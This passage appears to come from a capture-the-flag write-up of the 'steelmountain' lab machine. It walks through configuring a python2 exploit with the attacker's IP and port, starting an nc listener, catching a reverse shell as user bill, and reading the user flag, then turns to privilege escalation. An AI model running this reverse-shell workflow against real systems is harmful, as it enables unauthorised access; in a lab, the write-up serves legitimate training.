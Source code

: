 We also found some code lines which we need to edit with the tun0 IP of our Kali and port of our nc listener:

```
sudo gedit exploit.py
```

```shell
<SNIP>
	ip_addr = "10.11.113.193" #local IP address
	local_port = "8443" # Local Port number
<SNIP>
```

Note: Its always worth to analyze the code to see how the exploit works.

In this case, we also noticed that the exploit uses python2.

Now that we know how to use it, its time to hack our way in!

Start our nc listener first:

```shell
nc -lvnp 8443
```

And run the exploit with the following command:

```shell
python2 exploit.py 10.10.36.183 8080
```

It didnt work. But we know that there was a line in the code telling us to run the exploit multiple times. Lets do that and run the command above multiple times.

It worked! After running the exploit multiple times, we were able to get a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.11.113.193] from (UNKNOWN) [10.10.36.183] 49268
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\bill\Desktop\user.txt
```

# Privilege Escalation
### Enumerating PrivEsc Vectors with PowerUp.ps1
Lets enumerate the target using PowerUp.ps1.
